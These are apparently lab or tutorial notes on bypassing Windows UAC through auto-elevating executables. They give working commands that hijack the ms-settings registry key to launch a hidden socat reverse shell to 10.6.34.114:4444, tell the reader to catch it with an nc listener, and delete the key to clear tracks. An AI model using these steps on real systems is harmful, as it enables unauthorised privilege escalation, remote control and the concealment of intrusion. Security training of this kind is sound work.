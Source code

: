 
As mentioned before, some executables can auto-elevate, achieving high IL without any user intervention. This applies to most of the Control Panel's functionality and some executables provided with Windows.

For an application, some requirements need to be met to auto-elevate:

- The executable must be signed by the Windows Publisher
- The executable must be contained in a trusted directory, like `%SystemRoot%/System32/` or `%ProgramFiles%/`

Depending on the type of application, additional requirements may apply:

- Executable files (.exe) must declare the **autoElevate** element inside their manifests. To check a file's manifest, we can use **[sigcheck](https://docs.microsoft.com/en-us/sysinternals/downloads/sigcheck)**, a tool provided as part of the Sysinternals suite. You can find a copy of sigcheck on your machine on `C:\tools\` . If we check the manifest for msconfig.exe, we will find the autoElevate property:

Command Prompt

```shell-session
C:\tools\> sigcheck64.exe -m c:/windows/system32/msconfig.exe
...
<asmv3:application>
	<asmv3:windowsSettings xmlns="http://schemas.microsoft.com/SMI/2005/WindowsSettings">
		<dpiAware>true</dpiAware>
		<autoElevate>true</autoElevate>
	</asmv3:windowsSettings>
</asmv3:application>
```

- mmc.exe will auto elevate depending on the .msc snap-in that the user requests. Most of the .msc files included with Windows will auto elevate.
- Windows keeps an additional list of executables that auto elevate even when not requested in the manifest. This list includes pkgmgr.exe and spinstall.exe, for example.
- COM objects can also request auto-elevation by configuring some registry keys ([https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker](https://docs.microsoft.com/en-us/windows/win32/com/the-com-elevation-moniker)).

We set the required registry values to associate the ms-settings class to a reverse shell. For your convenience, a copy of **socat** can be found on `c:\tools\socat\`. You can use the following commands to set the required registry keys from a standard command line:

Command Prompt

```shell-session
C:\> set REG_KEY=HKCU\Software\Classes\ms-settings\Shell\Open\command
C:\> set CMD="powershell -windowstyle hidden C:\Tools\socat\socat.exe TCP:10.6.34.114:4444 EXEC:cmd.exe,pipes"

C:\> reg add %REG_KEY% /v "DelegateExecute" /d "" /f
The operation completed successfully.

C:\> reg add %REG_KEY% /d %CMD% /f
The operation completed successfully.
```
**Execute program^**
start nc listener first.
get shell
delete key to clear tracks:
```batch
reg delete HKCU\Software\Classes\ms-settings\ /f
```
